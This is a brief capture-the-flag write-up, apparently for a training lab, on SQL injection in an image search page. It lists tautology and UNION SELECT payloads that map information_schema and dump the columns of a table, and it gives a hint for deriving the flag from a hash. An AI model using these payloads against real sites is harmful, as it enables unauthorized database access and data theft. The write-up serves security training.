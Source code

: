 SQL injection on search image page

It's basically the same procedure as the sql_injection_member
Same steps:

- 1 OR 1=1
- -1 UNION SELECT table_name, column_name FROM information_schema.columns to get the list_images structure

and at last we concat the columns found
-1 UNION SELECT CONCAT(url, title, comment) as url, 1 from list_images

Url : borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46

